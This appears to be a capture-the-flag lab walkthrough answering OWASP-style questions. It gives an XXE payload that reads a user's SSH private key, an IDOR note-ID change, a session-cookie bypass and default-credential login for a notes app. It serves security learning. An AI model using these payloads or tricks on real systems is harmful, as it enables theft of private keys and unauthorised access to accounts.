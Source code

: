 	- Like we did previously

- What is the name of the user in /etc/passwd

	- `falcon`

- Where is falcon's SSH key located?

	- `/home/falcon/.ssh/id_rsa`

- What are the first 18 characters for falcon's private key

	- Insert this code inside the payload area:

	~~~
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/idrsa'>]>
	<root>&read;</root>
	~~~

	- `******************`

- Read and understand how broken access control works.

	  no answer needed

- Read and understand how IDOR works.

	  no answer needed

- Deploy the machine and go to `http://<TARGET_IP>` and login with the username being `noot` and the password `test1234`.

	  no answer needed

- Look at other users notes. What is the flag?

	- `?note=0`
	- `flag{*************}`

- Deploy the VM

	  no answer needed

- Hack into the webapp, and find the flag!

	- *disclaimer* Here I found another way to enter. Analyzing the source code of the application, in particular the `login.js` and `cookie.js` I found out that the only Authentication is based on the cookie with name `SessionToken`, so adding that cookie I can enter inside `/mynotes` page. But then, I didn't found anything weird.
	- Googling `Pensive notes source code` you will find a reposiory on GitHub.
	- Reading the README.md: 
	~~~
	After downloading and compiling PensiveNotes, log in using the default credentials pensive:PensiveNotes
	Make sure you change this password immediately!
	~~~
	- Login
	- `thm{********************************}`
